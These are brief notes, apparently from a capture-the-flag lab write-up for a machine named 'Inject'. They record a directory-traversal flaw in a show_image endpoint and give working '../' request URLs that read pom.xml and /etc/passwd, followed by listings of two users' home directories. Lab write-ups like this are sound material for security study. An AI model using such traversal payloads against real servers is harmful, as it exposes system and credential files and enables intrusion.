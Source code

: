 # Inject

Check file upload, enumerate directories, dns etc

Apache Maven pom.xml LFI

`http://10.10.11.204:8080/show_image?img=../../../pom.xml`

Allows reading of /etc/passwd for users, can enumerate directories also

`http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd`

Phil's home dir:

```
.ansible
.bash_history
.bashrc
.cache
.gnupg
.local
.profile
shell9.sh
user.txt
```


Frank's home dir:

```
.ansible
.bash_history
.bashrc
.cache
.local
.m2
.profile
.viminfo
```